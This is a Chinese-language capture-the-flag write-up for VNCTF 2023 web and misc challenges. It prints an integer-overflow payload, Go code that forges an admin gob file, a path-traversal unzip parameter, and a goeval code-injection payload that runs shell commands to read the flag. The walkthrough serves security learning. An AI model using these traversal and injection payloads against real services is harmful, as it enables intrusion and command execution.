 ## Web
### 象棋王子
在js源码 play.js中找到赢之后执行的逻辑，直接控制台执行
![](attachments/Pasted%20image%2020230427123520.png)


![](attachments/Pasted%20image%2020230427123350.png)

flag{w3lc0m3_t0_VNCTF_2023~~~}

### 电子木鱼
rust编写的后端，要1亿功德拿flag

![](attachments/Pasted%20image%2020230427124500.png)

这里考虑将cost设置为一个极限的负数，使功德减去它的时候能够转正 
i32的大小是 -2147483648~2147483647，经典的构造极限

没有思考了，在极限那个位置reset了几次
payload `name=Cost&quantity=214748366`

![](attachments/Pasted%20image%2020230427131811.png)

### BabyGo
go语言
一共5个路由
- GET /
- GET /upload
- POST /upload
	- 禁止上传 .gob 和 .go 文件
- GET /unzip
	- 解压文件，文件路径来自与get参数拼接
- GET /backdoor
	- 解码引用user.gob  在 Power为 admin 时 可以通过 goeval.Eval() 来执行命令

>思路：上传压缩文件，解压后覆盖原有user.gob 以此引用 /backdoor来执行命令，由于在调用的时候有decode的操作，我们生成的文件也需要是对应二进制的才能decode

[Go语言二进制文件的读写操作 (biancheng.net)](http://c.biancheng.net/view/4563.html)

```go
package main

import (
    "encoding/gob"
    "fmt"
    "os"
)

type User struct {
    Path string
    Name string
    Power string
}

func main() {
    user := User{Name: "ctfer", Path: "/tmp/d7671aa466b2c69f80e4bc0cf4b6b638/", Power: "admin",}
    file, err := os.Create("./user.gob")
    if err != nil {
        fmt.Println("文件创建失败", err.Error())
        return
    }
    defer file.Close()

    encoder := gob.NewEncoder(file)
    err = encoder.Encode(user)
    if err != nil {
        fmt.Println("编码错误", err.Error())
        return
    } else {
        fmt.Println("编码成功")
    }
}
```

解压时path可控，可以直接目录穿越
path=/../../../../../tmp/d7671aa466b2c69f80e4bc0cf4b6b638/
带着参数访问unzip就可以

![](attachments/Pasted%20image%2020230427135428.png)

当backdoor回显是good，就说明已经power=admin了
![](attachments/Pasted%20image%2020230427145609.png)

接下来就是goeval的使用
[GO语言安全 — 沙箱逃逸题目分析 (qq.com)](https://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496259&idx=1&sn=20b93256d8a5acfda5826c5d50096f63&chksm=fa5227fdcd25aeebbf9f9add2a483500a252d5ad058a92dafad394eaa1c57cf2bdb597e51b5c&scene=126&sessionid=1662436887&key=c28b5d09085340df0c20cadc0887eb0a420d5b3478fb82405c1162a5003fd87a918cab97f0023574a573ac935bbb17c54b4098410befadcc31f8320ab2775346154c10836855dd919d18f6653ef474ed1062c1b09cc3588cc8443f46baeb60df34d6211b9cc5d40cf20b4d7620e849c117bcb06d9142c9a0e852b2f08ec8a0af&ascene=15&uin=MzgxODQ4MjMz&devicetype=Windows+Server+2016+x64&version=63070517&lang=zh_CN&session_us=gh_94beeafaf804&exportkey=AzYl%2FCartrKvkaqiL%2Bd9Iv4%3D&acctmode=0&pass_ticket=L3CGnrfwXOeo2T%2Buh4YWaI7nRTXofYaJoUhuF2SbHMXZ9TQM3m3vlwD2pKPsf2tC&wx_header=0&fontgear=2)
这篇文章文末有可用的payload，中间还有goeval的分析
```
os/exec"%0a"fmt")%0afunc%09init()%7B%0acmd:=exec.Command("/bin/sh","-c","cat${IFS}/ffflllaaaggg")%0ares,err:=cmd.CombinedOutput()%0afmt.Println(err)%0afmt.Println(string(res))%0a}%0aconst(%0aMessage="fmt
```

![](attachments/Pasted%20image%2020230427150603.png)


### easyzentao
0day

## Misc
### 验证码
hint是 tupper
这里指的的tupper自指公式

验证码识别脚本

```python
import ddddocr  
  
path = "C:\\Users\\wum0nster\\Desktop\\buu\\2023VNCTF\\验证码\\img\\imgs\\"  
tupper = ""  
ocr = ddddocr.DdddOcr()  
for i in range(0, 136):  
   png = path + f"{i}.png"  
   with open(png, 'rb') as f:  
      img_bytes = f.read()  
   res = ocr.classification(img_bytes)  
   print('识别出的验证码为：' + res)  
   tupper += res  
print(tupper)
```
